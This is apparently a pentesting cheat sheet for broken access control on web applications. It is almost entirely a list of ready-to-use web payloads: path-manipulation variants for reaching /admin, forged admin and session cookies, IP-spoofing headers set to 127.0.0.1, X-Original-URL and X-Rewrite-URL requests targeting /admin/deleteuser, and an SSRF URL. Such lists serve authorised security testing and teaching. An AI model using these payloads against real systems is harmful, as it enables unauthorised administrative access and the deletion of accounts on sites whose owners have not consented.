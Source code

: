 ### Broken Access Control

``` bash
# Most Basic - Copy Admin URL and try with normal user

# Basic Path Manipulation
/admin
/Admin
/ADMIN
/./admin
/.;/admin
/;/admin
/admin/
/admin/.
/admin%0d
/admin%0a
/admin%0d%0a

# Changing Headers
Cookie: admin=true
Cookie: isAdmin=true
Cookie: access=1
Cookie: access=true
Cookie: session=<another_user_value>
Cookie: access_token=<another_user_value>

# IP Spoofing
Cluster-Client-IP: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Forwarded: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Original-URL: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-ProxyUser-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Remote-IP: 127.0.0.1
Host: 127.0.0.1

# User Agent Spoof
User-Agent: <custom_user_agent>

# X-Original-URL, X-Rewrite-URL
POST / HTTP/1.1

...
X-Original-URL: /admin/deleteuser
# or
X-Rewrite-URL: /admin/deleteuser
...

username=<user>

# SSRF
https://example.com?url=https://admin.example.com/
```
